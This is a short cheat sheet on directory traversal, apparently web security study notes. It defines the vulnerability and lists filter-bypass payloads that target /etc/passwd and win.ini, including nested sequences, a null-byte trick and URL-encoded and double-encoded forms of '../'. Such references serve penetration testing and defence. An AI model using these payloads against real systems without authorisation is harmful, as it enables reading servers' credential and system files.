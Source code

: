 # 🟩 Directory Traversal

Directory traversal (or path traversal) is a web security vulnerability that allows an attacker to read arbitrary files on the server that is running an application. This might include application code and data, credentials for back-end systems, and sensitive operating system files

## <mark style="color:red;">Bypass path traversal filters</mark>

```
..\..\..\windows\win.ini --> Windows OS
../../../etc/passwd
....//....//....//etc/passwd
/var/www/images/../../../etc/passwd 
../../../etc/passwd%00.png --> null byte bypass
```

**URL Encoding**

| char | encode          |
| ---- | --------------- |
| ../  | %2e%2e%2f       |
| ../  | %252e%252e%252f |
| ../  | ..%252f         |
| ../  | ..%c0%af        |
| ../  | ..%ef%bc%8f     |
